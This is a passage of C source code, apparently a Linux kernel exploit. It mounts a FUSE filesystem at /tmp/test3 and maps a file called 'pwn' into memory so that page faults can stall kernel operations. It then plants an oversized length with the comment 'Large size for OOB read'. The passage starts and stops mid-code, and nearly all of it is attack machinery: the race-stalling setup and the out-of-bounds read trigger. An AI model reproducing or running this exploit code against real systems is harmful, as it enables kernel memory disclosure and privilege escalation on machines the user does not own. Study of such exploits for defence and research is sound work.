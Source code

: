 ```c
    if (offset + size <= sizeof(fuse_file_data)) {
      memcpy(file_buf, fuse_file_data + offset, size);
    }
  }

  return size;
}

static struct fuse_operations fops = {
  .getattr = getattr_callback,
  .open = open_callback,
  .read = read_callback,
};

int setup_done = 0;
void * fuse_thread(void * _arg) {
  struct fuse_args args = FUSE_ARGS_INIT(0, NULL);
  struct fuse_chan * chan;
  struct fuse * fuse;

  if (mkdir("/tmp/test3", 0777) && errno != EEXIST)
    fatal("mkdir(\"/tmp/test3\")");

  if (!(chan = fuse_mount("/tmp/test3", & args)))
    fatal("fuse_mount");

  if (!(fuse = fuse_new(chan, & args, & fops, sizeof(fops), NULL))) {
    fuse_unmount("/tmp/test3", chan);
    fatal("fuse_new");
  }

  fuse_set_signal_handlers(fuse_get_session(fuse));
  setup_done = 1;

  fuse_loop(fuse);

  fuse_unmount("/tmp/test3", chan);
  return NULL;
}

int pwn_fd = -1;
void * mmap_fuse_file(void) {
  if (pwn_fd != -1) close(pwn_fd);
  pwn_fd = open("/tmp/test3/pwn", O_RDONLY); // Changed to RDONLY
  if (pwn_fd == -1) fatal("/tmp/test3/pwn");

  printf("Normal page: %p\n", mmap(NORMAL_PAGE_ADDR, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0));

  void * page;
  // Use MAP_PRIVATE to ensure page faults on access
  page = mmap(FUSE_PAGE_ADDR, 0x1000, PROT_READ | PROT_WRITE,
    MAP_PRIVATE, pwn_fd, 0);
  printf("Fuse page: %p\n", page);
  if (page == MAP_FAILED) fatal("mmap");
  return page;
}

int main(int argc, char ** argv) {
  *(long*)fuse_file_data = 0x2000; // Large size for OOB read

  pthread_t th;
  pthread_create( & th, NULL, fuse_thread, NULL);
```
